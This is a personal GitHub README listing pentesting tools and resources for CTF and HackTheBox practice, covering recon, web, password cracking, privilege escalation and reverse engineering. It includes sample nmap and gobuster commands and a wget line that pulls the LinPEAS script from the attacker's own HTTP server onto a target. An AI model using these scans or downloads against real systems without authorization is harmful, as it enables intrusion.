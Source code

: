 # cow-tools

![](https://upload.wikimedia.org/wikipedia/en/thumb/9/9a/Cow_Tools_cartoon.png/220px-Cow_Tools_cartoon.png)

A collection of the pentesting tools and resources I've found and made use of over the years, and maybe some of my own!?

Many of these tools are prebuilt into Kali, and will not need to be installed.

## VMs
- [Kali VMWare](https://www.kali.org/get-kali/#kali-virtual-machines) - Easy images for VM usage. I prefer this over everything and I've frequently wiped VMs with utter disregard.

## General Resources
- [HackTricks](https://book.hacktricks.wiki/en/index.html) - My favorite general hacking wiki. Has awesome documentation for many attack vectors.
- [HackTricks Cloud](https://cloud.hacktricks.wiki/en/index.html) - Hacktricks, but for cloud! Good docs on things like CI/CD, Terraform, and Kubernetes.
- [IppSec](https://www.youtube.com/@ippsec) - Great Youtube channel with HTB writeups. Nice to look at as retros after box completion.
- [Exploit DB](https://exploit-db.com) - List of exploits and PoCs, perfect for when you find a vulnerable service.

## Recon & Discovery
- [Nmap](https://nmap.org/) - A classic and mainstay. Most useful and easiest to work with port and network scanner.
  > Very aggro scan: `$ nmap -sS -A -T 5 10.0.0.0`
  >
  > More calm scan: `$ nmap -sS 10.0.0.0`
  >
  > All ports: `$ nmap -sS 10.0.0.0 -p-`
- [Gobuster](https://github.com/OJ/gobuster) - Web app fuzzer, I get a crazy amount of use out of this one. Great for subdomain and dir enumeration.
  > Directory discovery: `$ gobuster dir http://site.htb --wordlist /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt`
  >
  > Subdomain/VHost discovery: `$ gobuster vhost --append-domain http://site.htb --wordlist /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt`
- [WhatWeb](https://github.com/urbanadventurer/WhatWeb) - Web app scanner, useful for finding vulnerable versions of software hosting the webapp.
- [FeroxBuster](https://github.com/epi052/feroxbuster) - Quick recursive directory fuzzer.

## Web App
- [Burp Suite](https://portswigger.net/burp) - Web app proxy and repeater for easy introspection and modification of HTTP requests.
- [JWT.io](https://jwt.io) - JWT token parsing and decoding, great for finding token injection parameters or low RSA N values to crack.
- [XSS Payload List](https://github.com/payloadbox/xss-payload-list) - Useful list of common XSS payloads.
- [MITMProxy](https://mitmproxy.org/) - Easy HTTP proxy for port forwarding a localhost webserver.
- [Reverse Shell Generator](https://www.revshells.com/) - Easy way to get a shell made, has many options for style and encoding.
- [Git Dumper](https://github.com/arthaud/git-dumper) - Easily dump git repos from the web

## SQLi
- [SQLMap](https://sqlmap.org/) - Aggressive SQLi finder. Do not use this outside of CTF/OSCP/HTB.

## Scripting
- [PWNTools](https://docs.pwntools.com/en/stable/) - Python library for automating binary exploitation scripts and other CTF related tasks.

## Cryptography
- [HashCat](https://hashcat.net/wiki/doku.php?id=example_hashes) - Hash cracking tool for a variety of hashes.
- [CyberChef](https://gchq.github.io/CyberChef/) - Best online encoding and text parsing. Useful for base64, parsing certs, etc.
- [CrackStation](https://crackstation.net/) - Cached cracked passwords, easy for simple ones like SHA256 and MD5 that may have been popped in breaches. Great for HTB.
- [RSACTFTool](https://github.com/RsaCtfTool/RsaCtfTool) - RSA breaking tool, great for ciphers with weak N values.
- [Alpertron's Integer Factorization Calculator](https://www.alpertron.com.ar/ECM.HTM) - Easily factorize massive integers with elliptic curve or quadtratic sieve.

## Wordlists
- [SecLists](https://github.com/danielmiessler/SecLists) - Favorite wordlists! This has all kinds of stuff for web fuzzing, local directories, etc.
- [RockYou2021](https://github.com/ohmybahgosh/RockYou2021.txt) - Big collected wordlist featuring seclists, crackstation, and more.
- [OneRuleToRuleThemAll](https://github.com/NotSoSecure/password_cracking_rules/blob/master/OneRuleToRuleThemAll.rule) - Massive Hashcat cracking rule for special password combo attacks.

## Privelege Escalation

### OS Agnostic
- Python HTTP Server - I get a crazy ammount of use out of this to pull down files from my box.
  > Start server: `$ python3 -m http.server 80`
  >
  > Pull file: `wget http://10.10.14.7/linpeas.sh`

### Linux
- [LinPEAS](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS) - Privesc automation script. Easily find curious things to exploit.
- [GTFOBins](https://gtfobins.github.io/) - Easily exploitable bins to live off the land with. Good for finding SUID exploits.

### Windows
- [WinPEAS](https://github.com/peass-ng/PEASS-ng/blob/master/winPEAS/winPEASexe/README.md) - Windows privesc automation script. Easily find curious things to exploit.
- [LOLBas](https://lolbas-project.github.io/) - Live off the land with local Windows scripts to get priveleged.

## Reverse Engineering
- [jd-gui](https://java-decompiler.github.io/) - Java decompilation. Perfect for .class files.
- [dnSpy](https://github.com/dnSpy/dnSpy) - Windows dotnet, c# decompilation tool. Nice for DLL files too.
- [Ghidra](https://ghidra-sre.org/) - NSA made disassembly tool. Works well for C, but has a hard time with Rust.
- [Binary Ninja](https://binary.ninja/) - Web based disassembler, sometimes can get results that are hard to find in Ghidra. Much better for rust.
